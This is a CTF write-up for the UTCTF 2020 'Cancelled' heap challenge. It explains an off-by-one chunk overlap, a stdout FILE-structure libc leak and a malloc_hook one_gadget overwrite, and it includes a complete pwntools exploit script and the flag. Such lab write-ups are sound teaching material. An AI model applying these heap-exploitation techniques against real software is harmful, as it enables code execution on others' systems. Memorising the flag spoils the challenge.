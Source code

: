 https://teamrocketist.github.io/2020/03/10/Pwn-UTCTF-2020-Cancelled/

Original writeup (https://teamrocketist.github.io/2020/03/10/Pwn-
UTCTF-2020-Cancelled/).This challenge is similar to the BabyTcache in HITCON CTF 2018.  
The difference in this two task is that BabyTcache use off-by-one null byte
but Cancelled let you to off-by-one any byte.

To solve this task, I use stdout file structure to leak, and write malloc_hook
to one_gadget.

I use unsorted bin to get an address close to stdout structure, and partial
overwrite it to the stdout structure. Becacuse the unsorted bin is circular
double link list, so the last chunk which inserted into the unsorted bin have
an address point to libc on it's fd pointer.

```  
+-----------------------+  
|   chunk 0 size 0x40   |  
+-----------------------+  
|   chunk 1 size 0x500  |  
+-----------------------+  
|   chunk 2 size 0x40   |  
+-----------------------+  
|   chunk 3 size 0x500  |  
+-----------------------+  
|   chunk 4 size 0x80   |  
+-----------------------+  
```  
Chunk4 is used to prevent all chunks are merged to top chunk.  
First we need to use chunk0 to overflow one byte `0x41` to chunk1's `SIZE`, so
we free chunk0 and malloc(0x38) to get chunk0 again and overflow. After do
that, the chunk1's `SIZE` will be change to `0x541`, it will include chunk2.  
Next we free chunk2 to insert it into tcache. And free chunk1 to insert it
into unsorted bin. After this to step, the heap will looks like below.  
```  
+-----------------------+  
|   chunk 0 size 0x40   |  
+-----------------------+--------------------------+  
|   chunk 1 size 0x500  |            unsorted bin  |  
+-----------------------+-------------------+      |  
|   chunk 2 size 0x40   | tcache (overlap)  |      |  
+-----------------------+-------------------+------+  
|   chunk 3 size 0x500  |  
+-----------------------+  
|   chunk 4 size 0x80   |  
+-----------------------+  
```  
Next, we free chunk3. And it will merge chunk1.  
```  
+-----------------------+  
|   chunk 0 size 0x40   |  
+-----------------------+------------------------------+  
|   chunk 1 size 0x500  | unsorted bin (1 chunk)       |  
+-----------------------+-------------------+          |  
|   chunk 2 size 0x40   | tcache (overlap)  |          |  
+-----------------------+-------------------+          |  
|   chunk 3 size 0x500  |                              |  
+-----------------------+------------------------------+  
|   chunk 4 size 0x80   |  
+-----------------------+  
```  
Chunk1,2,3 merged into a single chunk and be put into unsorted bin. Chunk2 is
overlap and in tcache.

Now, free malloc(0x4F8). We will get chunk1 and remain chunk2,3 will be
inserted into unsorted bin again. And chunk2's `fd`,`bk` will be write an
address which in the libc. Notice that the chunk2 is also in tcache now, so
the `fd` pointer is also used by tcache.  
```  
+-----------------------+  
|   chunk 0 size 0x40   |  
+-----------------------+  
|   chunk 1 size 0x500  |  
|                       |   PREV_SIZE   |  
+-----------------------+---------------+-------------------+----------+  
|   chunk 2 size 0x40   |      SIZE     | tcache (overlap)  | unsorted |  
|                       |      FD       |                   | bin      |  
|                       |      BK       |                   |          |  
+-----------------------+-----------------------------------+          |  
|   chunk 3 size 0x500  |                                              |  
+-----------------------+----------------------------------------------+  
|   chunk 4 size 0x80   |  
+-----------------------+  
```  
Next, malloc(0x538) and partial overwrite 2 byte 0x?760 (stdout struct in
offset `0x3ec760`) on `fd` pointer, because of ASLR, we need to brute forsce
?, we have 1/16 chance.  
We can malloc(0x38) twice, to get address which `fd` point.  
If we successfully get the stdout structure, we can write `_flag` to
`0xfbad1800` , `_IO_read_ptr`、`_IO_read_end`、`_IO_read_base` to null and
partial overwrite `_IO_write_base` low byte to null.  
After that, we can leak something.  
After leak libc base, we can overwrite free_hook or malloc_hook or other to
get shell. To overwrite that, use method the same to above.

Explot:  
```python  
from pwn import *  
import os  
r = remote("binary.utctf.live",9050)  
#r = process("./pwnable")

def add(idx, name, desc_len, desc, nomenu = False):  
   print("Add "+hex(desc_len))  
   if nomenu:  
       r.sendline("1")  
   else:  
       r.sendlineafter(">","1")  
   r.sendlineafter("Index: ",str(idx))  
   r.sendlineafter("Name: ",name)  
   r.sendlineafter("Length of description: ",str(desc_len))  
   r.sendafter("Description: ",desc)

def cancel(idx, nomenu = False):  
   if nomenu:  
       r.sendline("2")  
       #r.interactive()  
   else:  
       r.sendlineafter(">","2")  
   r.sendlineafter(": ",str(idx))

add(0, "a", 0x38, "a")  
add(1, "a", 0x4F8, "a")  
add(2, "a", 0x38, "a")  
add(3, "a", 0x4F8, "a")  
add(4, "a", 0x78, "a")  
cancel(0)  
add(0, "a", 0x38, 'a'*0x38+'\x41')  
cancel(2)  
cancel(1)  
cancel(3)  
add(5, "a", 0x4F8, 'a')  
add(6, "a", 0x538, '\x60\xa7')

add(7, "tcache", 0x38, 'a')  
add(8, "stdout", 0x38, p64(0xfbad1800)+b'\x00'*25)

#0x00007f405487c8b0-0x00007f405448f000 = 0x3ED8B0  
res = r.recvuntil(":")  
print(res)  
print(len(res))  
libc = u64(res[8:16])-0x3ed8b0  
print(hex(libc))  
#os.system("cat /proc/"+str(int(input("pid:")))+"/maps")

malloc_hook = libc+0x3ebc30  
one_gadget = libc+0x10a38c

add(0, "a", 0x48, "a",True)  
add(1, "a", 0x4F8, "a",True)  
add(2, "a", 0x48, "a",True)  
add(3, "a", 0x4F8, "a",True)  
add(4, "a", 0x78, "a",True)  
#r.interactive()  
r.recv()  
cancel(0,True)  
add(0, "a", 0x48, 'a'*0x48+'\x51',True)  
cancel(2,True)  
cancel(1,True)  
cancel(3,True)  
add(5, "a", 0x4F8, 'a',True)  
add(6, "a", 0x548, p64(malloc_hook),True)  
add(7, "tcache", 0x48, 'a',True)  
add(8, "malloc_hook", 0x48, p64(one_gadget),True)

#add(10, "shell", 0x87, 'a',True)  
r.recv()

r.sendline("1")  
r.sendlineafter("Index: ","10")  
r.sendlineafter("Name: ","a")  
r.sendlineafter("Length of description: ","10")

r.interactive()  
#utflag{j1tt3rbUg_iS_Canc3l1ed_:(}  
```